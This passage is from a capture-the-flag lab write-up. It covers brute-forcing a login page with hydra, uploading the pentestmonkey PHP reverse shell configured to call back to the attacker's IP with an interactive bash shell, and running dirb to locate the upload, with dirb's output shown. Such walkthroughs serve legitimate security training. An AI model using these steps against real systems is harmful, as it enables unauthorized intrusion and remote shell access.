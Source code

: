 In the above hydra command, we have used the `userid` file for bruteforcing usernames using the switch `-L` and the `credentials.txt` for passwords using the switch `-P`. For specifying that we are bruteforcing a login page, we have used `http-post-form` and passed on our authentication page's path and other parameters. The `Incorrect*` helps to filter out those requests that returned either `Incorrect username` or `Incorrect password` and we get the only correct credential pair in the output.

We can now use these credentials to login on the page.

![upload_file](./.images/upload_file.png)

Here, we can upload a file and as this is apache based we can search on the internet for `php reverse shell` files and use them to gain access to the machine. Once such file can be found [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). All we need to do is make some changes to this file and we are ready to go.

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.x.x.x';  // CHANGE THIS
$port = 9090;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/bash -i';
$daemon = 0;
$debug = 0;
```

Here, we need to enter our local IP address on which we intend to get the reverse shell connection. Also, we can change the `$shell` to get a shell that we want. Here, I have changed `/bin/sh` to `/bin/bash`.

Once, we upload this file we need to open it but we don't know where it is stored. So, we can run a directory bruteforce attack on the `/sUp3r-s3cr3t` directory.

```
tester@kali:~/Downloads/tartarus$ dirb http://10.10.39.48/sUp3r-s3cr3t

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Sep 20 16:43:16 2020
URL_BASE: http://10.10.39.48/sUp3r-s3cr3t/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.39.48/sUp3r-s3cr3t/ ----
==> DIRECTORY: http://10.10.39.48/sUp3r-s3cr3t/images/                                                                   
+ http://10.10.39.48/sUp3r-s3cr3t/index.html (CODE:200|SIZE:732)                                                         
                                                                                                                         
---- Entering directory: http://10.10.39.48/sUp3r-s3cr3t/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
```